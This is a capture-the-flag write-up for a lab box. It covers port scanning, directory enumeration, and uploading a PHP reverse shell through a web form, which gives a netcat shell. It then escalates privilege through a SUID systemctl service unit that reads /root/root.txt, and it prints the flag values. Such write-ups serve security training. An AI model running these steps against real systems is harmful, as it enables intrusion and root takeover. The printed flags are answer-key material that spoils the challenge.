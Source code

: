 <center> <h1>Vulneversity Write Up</h1> </center>

# Task 1 ⇒ Deploy the machine
IP: ```10.10.255.221```
# Task 2⇒ Reconnaissance
```
┌─[root@parrot]─[/home/alexdos2010m]
└──╼ #nmap -sV -sC 10.10.255.221
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-14 11:11 IST
Nmap scan report for 10.10.255.221
Host is up (0.53s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m04s, deviation: 2h18m34s, median: 4s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2021-08-14T01:41:47-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-14T05:41:48
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.79 seconds
```

Scan the box, how many ports are open? `6`

What version of the squid proxy is running on the machine?`3.5.12`

How many ports will nmap scan if the flag **-p-400** was used? `400`

Using the nmap flag **-n** what will it not resolve? `DNS`

What is the most likely operating system this machine is running? `Ubuntu`

What port is the web server running on? `3333`
# Task 3⇒ Locating directories using GoBuster!!
```
┌─[alexdos2010m@parrot]─[~]
└──╼ $gobuster dir -u http://10.10.255.221:3333 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.255.221:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/14 11:31:08 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 322] [--> http://10.10.255.221:3333/images/]
/css                  (Status: 301) [Size: 319] [--> http://10.10.255.221:3333/css/]   
/js                   (Status: 301) [Size: 318] [--> http://10.10.255.221:3333/js/]    
/fonts                (Status: 301) [Size: 321] [--> http://10.10.255.221:3333/fonts/] 
/internal             (Status: 301) [Size: 324] [--> http://10.10.255.221:3333/internal/]
                                                                                         
===============================================================
2021/08/14 11:58:22 Finished
===============================================================
```
![](form_internal.png)
# Task 4⇒ Compromise the webserver
![[burp_intercept.png]]
![[intruder.png]]
### Reverse PHP Shell:
![[form_internal_phtml.png]]
[reverse PHP](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```
┌─[alexdos2010m@parrot]─[~/Downloads]
└──╼ $nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.18.32] from (UNKNOWN) [10.10.255.221] 40778
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 03:42:38 up  2:05,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ ls
bin
boot
dev
etc
home
initrd.img
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
```
![[task4.png]]
```
$ cd home
$ ls
bill
$ cd bill
$ ls
user.txt
```
`$ cat user.txt 
8bd7992fbe8a6ad22a63361004cfcedb`
# Task 5⇒ Privilege Escalation
```
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
$ TF=$(mktemp).service
$ echo '[Service]
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF> > 
$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.hNU5Ie7Gaj.service to /tmp/tmp.hNU5Ie7Gaj.service.
$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.hNU5Ie7Gaj.service to /tmp/tmp.hNU5Ie7Gaj.service.
```

`
$ cat /tmp/output
a58ff8579f0a9270368d33a9966c7fd5
`